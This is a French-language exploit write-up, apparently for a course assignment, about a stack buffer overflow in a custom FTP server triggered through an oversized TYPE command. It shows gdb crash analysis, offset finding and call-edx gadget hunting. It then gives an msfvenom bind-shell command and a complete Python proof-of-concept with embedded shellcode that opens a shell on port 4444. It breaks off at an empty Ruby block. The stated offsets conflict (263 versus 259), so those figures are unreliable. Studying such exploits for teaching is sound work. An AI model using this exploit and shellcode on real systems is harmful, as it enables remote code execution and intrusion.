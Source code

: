 # TATT - DM3

On peut lancer le serveur FTP avec gdb : 

```bash
sudo gdb ./my_ftpd
set follow-fork-mode child
run -u users.txt -v 3 -l log.txt
```

Pour le lancer normalement, on peut utiliser la commande suivante :

```bash
sudo ./my_ftpd -u users.txt -v 3 -l log.txt
```

---

Les erreurs intéressants : 

```
STOR {A * 100}
TYPE {A * 500,1000,2000,5000} -> la plus intéresssante
```

---

On test avec des cyclic pattern de 500 car c'est la taille la plus petite qui crash le programme, on voit avec la backtrace que la première valeur que nous controlons est en position 60 de la backtrace, on peut donc se douter que l'offset est aux alentours des 500 - (59 * 4) = 264.

Avec gdb, on trouve que l'offset exact est 263

```bash
msf-pattern_offset -q 0x69413669
[*] Exact match at offset 259
```

Lors du crash on a :

```bash
(gdb) info registers
eax 0x0 0
ecx 0x0 0
edx 0xbffff2f9 -1073745159
ebx 0x0 0
esp 0xbffff400 0xbffff400
ebp 0x41356941 0x41356941
esi 0x804c990 134531472
edi 0xb7ffeb80 -1207964800
eip 0x69413669 0x69413669
eflags 0x10202 [ IF RF ]
cs 0x73 115
ss 0x7b 123
ds 0x7b 123
es 0x7b 123
fs 0x0 0
gs 0x33 51
(gdb) x/20x $esp
0xbffff400: 0x00000000 0x080520d0 0x00000000 0x00000000
0xbffff410: 0x08052058 0x00000000 0x08052048 0x00000003
0xbffff420: 0x08052050 0xb7ffeb80 0xbffff458 0x0804c654
0xbffff430: 0x0804f1c4 0x0804f1a0 0x08052050 0xb7e8ff3a
0xbffff440: 0x08051ad0 0x0804d435 0xb7e634c9 0x08051c40
(gdb) x/100 $edx
0xbffff2f9: 0x41306141 0x61413161 0x33614132 0x41346141
0xbffff309: 0x61413561 0x37614136 0x41386141 0x62413961
...
```

On voit que edx pointe sur le buffer contenant le payload, on peut donc utiliser edx pour écrire notre shellcode.

On trouve des instructions dans le binaire nous permettant de sauter à l'adresse de notre shellcode :

```bash
objdump -d my_ftpd | grep -E "(call.*edx|jmp.*edx)"
 80493c2:	ff d2                	call   *%edx
 804b0ca:	ff d2                	call   *%edx
 804b5ed:	ff d2                	call   *%edx
 804c652:	ff d2                	call   *%edx
```

Il est important que le shellcode doit être assez court pour ne pas dépasser sur l'adresse de retour : 

```
[SHELLCODE] + [PADDING] + [ADRESSE_RETOUR]
    |              |           |
    |              |           +-- 4 octets (à l'offset 259)
    |              +-------------- PADDING pour atteindre 259 octets
    +----------------------------- SHELLCODE (doit faire < 259 octets)
```

Avec cette commande, on peut générer un shellcode de bind shell qui écoute sur le port 4444 :

```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -b '\x00\x0a\x0d\x20' -f python
```

Le shellcode généré fait 105 octets, donc on peut l'utiliser directement.

Avec ce script on peut donc faire un POC d'un bind shell :

```python
#!/usr/bin/env python3
import socket
import struct

# Configuration
TARGET = "127.0.0.1"
PORT = 21

def create_exploit():
    # Adresse d'une instruction qui utilise EDX (À TROUVER avec objdump)
    # Exemple : si vous trouvez "call *%edx" à 0x08048xxx
    call_edx_addr = 0x80493c2

    # Shellcode simple bind shell (port 4444)
    # msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -b '\x00\x0a\x0d\x20' -f python
    shellcode =  b""
    shellcode += b"\xbb\xfe\xef\xf9\xda\xdb\xc1\xd9\x74\x24\xf4\x5e"
    shellcode += b"\x33\xc9\xb1\x14\x83\xee\xfc\x31\x5e\x10\x03\x5e"
    shellcode += b"\x10\x1c\x1a\xc8\x01\x17\x06\x78\xf5\x84\xa3\x7d"
    shellcode += b"\x70\xcb\x84\xe4\x4f\x8b\xbe\xb6\x1d\xe3\x42\x47"
    shellcode += b"\xb3\xaf\x28\x57\xe2\x1f\x24\xb6\x6e\xf9\x6e\xf4"
    shellcode += b"\xef\x8c\xce\x02\x43\x8a\x60\x6c\x6e\x12\xc3\xc1"
    shellcode += b"\x16\xdf\x44\xb2\x8e\xb5\x7b\xed\xfd\xc9\xcd\x74"
    shellcode += b"\x06\xa1\xe2\xa9\x85\x59\x95\x9a\x0b\xf0\x0b\x6c"
    shellcode += b"\x28\x52\x87\xe7\x4e\xe2\x2c\x35\x10"

    # Construction : shellcode + padding + adresse de retour
    offset = 259
    padding_size = offset - len(shellcode)

    if padding_size < 0:
        print("[-] Shellcode trop long !")
        return None

    exploit = shellcode + b"A" * padding_size + struct.pack("<I", call_edx_addr)
    return exploit

def send_exploit():
    print("[*] Création de l'exploit...")
    payload = create_exploit()

    if not payload:
        return

    print(f"[*] Taille payload: {len(payload)} octets")
    print("[*] Connexion au serveur FTP...")

    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(10)
        s.connect((TARGET, PORT))

        # Bannière
        banner = s.recv(1024)
        print(f"[+] {banner.decode().strip()}")

        # Auth
        s.send(b"USER test\r\n")
        resp = s.recv(1024)
        print(f"[+] {resp.decode().strip()}")

        s.send(b"PASS test\r\n")
        resp = s.recv(1024)
        print(f"[+] {resp.decode().strip()}")

        print("[*] Envoi de l'exploit...")
        s.send(b"TYPE " + payload + b"\r\n")

        print("[+] Exploit envoyé !")
        print("[*] Si bind shell: nc TARGET_IP 4444")

    except Exception as e:
        print(f"[-] Erreur: {e}")
    finally:
        try:
            s.close()
        except:
            pass

if __name__ == "__main__":
    print("=== POC Exploit TYPE buffer Overflow ===")
    print("[!] N'oubliez pas de remplacer call_edx_addr !")
    send_exploit()
```

Il ne reste plus qu'à écrire l'exploit en ruby pour Metasploit :

```ruby